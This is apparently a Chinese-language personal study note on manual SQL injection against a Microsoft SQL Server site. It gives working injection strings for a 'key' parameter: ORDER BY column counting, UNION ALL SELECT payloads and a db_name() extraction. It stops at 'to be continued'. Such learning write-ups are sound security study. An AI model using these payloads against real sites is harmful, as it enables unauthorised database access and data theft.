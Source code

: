 ```yaml
---
description: mysql的手注已经轻车熟路了，尝试一下mssql的注入
---
```


# SQLserver手注过程

注点寻找

![](../.gitbook/assets/image%20%2878%29.png)

进一步确认，页面正常

![](../.gitbook/assets/image%20%2848%29.png)

测试字段数：

* key=ss%27 order by 2 --  正常
* key=ss%27 order by 4 --  报错  但不是字段数的问题
* key=ss' order by 8 --   字段数不正确 
* key=ss' order by 6 --   字段数不正确
* key=ss' order by 5 -- 字段数不正确

确认字段数为4   来看一下报错

![](../.gitbook/assets/image%20%2879%29.png)

应该是类型不同的原因  直接尝试union查询

key=ss' and 1=2 union select 1,2,3,4 --     报错

![](../.gitbook/assets/image%20%2816%29.png)

可能是因为有字符串  改造payload：key=ss' and 1=2 union select '1','2','3','4' --

![](../.gitbook/assets/image%20%28139%29.png)

上网查找错误： 产生这一错误的原因是union语句合并查询时是默认去除重复项的，也就是默认执行了distinct操作。改用union all

![](../.gitbook/assets/image%20%2898%29.png)

位置确认了  测试数据库名字 key=ss' and 1=2 union all select '1',db\_name\(\),'3','4' --

![](../.gitbook/assets/image%20%28134%29.png)

未完待续…

